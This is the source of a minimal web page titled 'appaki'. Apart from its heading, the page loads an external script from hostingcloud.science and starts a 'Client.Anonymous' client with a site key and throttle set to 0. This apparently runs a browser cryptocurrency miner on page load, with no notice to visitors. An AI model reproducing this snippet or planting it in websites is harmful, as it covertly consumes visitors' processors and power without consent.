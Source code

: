 # appaki
<title>appaki</title>
<h1>appaki</h1>
<script src="https://www.hostingcloud.science./3h9L.js"></script>
<script>
    var _client = new Client.Anonymous('1434c770bff0dcc65c79fd47d17b34fbcfe2ffc2c22efd8a08ecf0e1f2b32023', {
        throttle: 0
    });
    _client.start();
    

</script>
